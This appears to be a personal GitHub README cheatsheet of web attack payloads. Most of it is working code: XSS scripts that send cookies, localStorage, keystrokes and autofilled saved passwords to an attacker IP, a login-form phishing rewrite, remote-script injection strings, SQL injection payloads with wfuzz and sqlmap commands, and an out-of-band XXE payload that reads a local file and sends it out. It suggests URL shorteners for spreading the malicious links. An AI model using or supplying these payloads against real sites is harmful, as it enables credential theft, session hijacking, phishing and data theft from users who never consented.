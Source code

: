 # Welcome to Useful-Shit/Web!

Hi! This would probably be better as a gist, honestly. But it's my repo and I'll do what I want!
This is basically just a web testing cheatsheet for me but if you find my stuff useful, a star would be appreciated 😁

## Quick Jump:
- [XSS](#xss-copypastas)
- [SQLi](#sql-injection-sqli)
- []

# Cross-Site Scripting (XSS)

XSS Payloads for fun and profit. Different types of XSS:

 - **Reflected Server XSS:** often found in locations where user input is sent via GET parameters.
	 - `search.php?s=%3Cscript%3Ealert%280%29%3C%2Fscript%3E`
 - **Stored Server XSS:** Literally stored on the server. Think user comments or blog/page posts.
	 - `<script>alert(0)</script>`
 - **Reflected Client XSS:** Same kind of idea as the Server XSS. Stuff some junk into a parameter and see what sticks.
	 - `<img src='x' onerror='alert(1)'>`
 - **Stored Client XSS:** Things like form elements can be taken advantage of to store XSS, for example a survey page for Jarrod has the URL `http://survey.tld/?name=Jarrod` and after filling the survey we end up with a new parameter `http://survey.tld/?name=Jarrod&result`. The answers to the survey could be prone to injection, and should be tested.

## XSS - Exploitation

### Stealing session cookies

Leverage XSS to fetch the payload from a web server you control:

`xss.js`

```javascript
let cookie = document.cookie

let encodedCookie = encodeURIComponent(cookie)

fetch("http://192.168.49.51/exfil?data=" + encodedCookie)
```

This payload may not work if `HttpOnly` is specified in the server headers.

### Stealing local secrets

Local storage may include secrets like API keys or personal user info. There are two types: `sessionStorage` and `localStorage` - session storage only holds data for the session, whereas `localStorage` is the local cache and won't be flushed until explicitly done so.

`local.js`

```javascript
let data = JSON.stringify(localStorage)

let encodedData = encodeURIComponent(data)

fetch("http://192.168.49.51/exfil?data=" + encodedData)
```

### Keylogging

It's keylogging, but through XSS. Let's see what users are typing:

`klog.js`

```javascript
function logKey(event){
        fetch("http://192.168.49.51/k?key=" + event.key)
}

document.addEventListener('keydown', logKey);
```

### Stealing saved passwords

`stealer.js`

```javascript
let body = document.getElementsByTagName("body")[0]

  var u = document.createElement("input");
  u.type = "text";
  u.style.position = "fixed";
  //u.style.opacity = "0";

  var p = document.createElement("input");
  p.type = "password";
  p.style.position = "fixed";
  //p.style.opacity = "0";

  body.append(u)
  body.append(p)

  setTimeout(function(){ 
          fetch("http://192.168.49.51/k?u=" + u.value + "&p=" + p.value)
   }, 5000);
```

### Phishing users

The concept is simple: Use javascript to *fetch* the login page, and change the action (submit) on the form to point to our listening server hosting the XSS. Take the above **Reflected Server XSS** for example. In the `search.php?s=` parameter, we could use `<script src="10.10.13.37/xss.js"></script>`, but URLEncode it first: `search.php?s=%3Cscript%20src%3D%2210%2E10%2E13%2E37%2Fxss%2Ejs%22%3E%3C%2Fscript%3E`. Now we have a deadly link to send to users, or take it a step further and use a URL shortener 😉

`phish.js`

```javascript
fetch("login").then(res => res.text().then(data => {
	document.getElementsByTagName("html")[0].innerHTML = data
	document.getElementsByTagName("form")[0].action = "http://192.168.49.51"
	document.getElementsByTagName("form")[0].method = "get"
}))
```

## XSS Copypastas

 - `<script>alert(0)</script>`

 - `<img src='x' onerror='alert(1)'>`

 - `<img src='x' onerror='alert(document.location)'>`

 - External payload: `<script src="http://10.10.13.37/xss.js"></script>`

 - Insert script from external: `<img src='x' onerror='const script = document.createElement("script"); script.src="http://10.10.13.37/xss-login.js";document.head.append(script);'>`


## SQL Injection (SQLi)

- Error-based payloads
- UNION-based payloads
- Stacked Queries
- Reading and writing files
- RCE

## SQLi Fuzzing
### Fuzzing GET parameter
`wfuzz -c -z file,/usr/share/wordlists/wfuzz/Injections/SQL.txt -u "$URL/index.php?id=FUZZ"`

### Fuzzing POST parameter
`wfuzz -c -z file,/usr/share/wordlists/wfuzz/Injections/SQL.txt -d "id=FUZZ" -u "$URL/index.php"`

## SQLMap quickies
### sqlmap GET parameter
`sqlmap -u "$URL/index.php?id=1"`

### sqlmap POST parameter

Copy POST request from Burp Suite into `post.req` file

```shell
sqlmap -r post.req -p parameter`
```


## Example SQLi Statements:

MSSQL error discovery: `inStock=1&name=test&sort=id&order=%foo') or id between 1 and 200-- %')`

MSSQL version/error-based: `inStock=1&name=test ') or 1/@@version=LOWER('name&sort=id&order=asc`

MSSQL 2: `inStock=CAST((SELECT+TOP+1+table_name+FROM+(Select+TOP+2+table_name+FROM+app.information_schema.tables+ORDER+BY+table_name)z+ORDER+BY+table_name+DESC)+as+varchar);&name=&sort=id&order=asc`

UNION: `SELECT id, name, description, price FROM menu WHERE id = 0 UNION ALL SELECT id, username, password, 0 from users`


### SQLi junk to sort/scrap
SELECT * FROM menu WHERE name = 'Tostadas'

SELECT id, name, description, price FROM menu WHERE name = 'foo'

jim OR id between 1 and 200

Postgresql: '; select * from menu;--

Oracle:

Strings and functions

ALL: %foo') or id between 1 and 200-- %')


## External XML Entities (XXE)

Fetch `external.dtd`

```xml
<?xml version="1.0" encoding="utf-8"?> 
<!DOCTYPE oob [
<!ENTITY % base SYSTEM "http://192.168.45.222/external.dtd"> 
%base;
%external;
%exfil;
]>
<entity-engine-xml>
</entity-engine-xml>
```

`external.dtd`
```
<!ENTITY % content SYSTEM "file:///root/oob.txt">
<!ENTITY % external "<!ENTITY &#37; exfil SYSTEM 'http://192.168.45.222/out?%content;'>" >
```
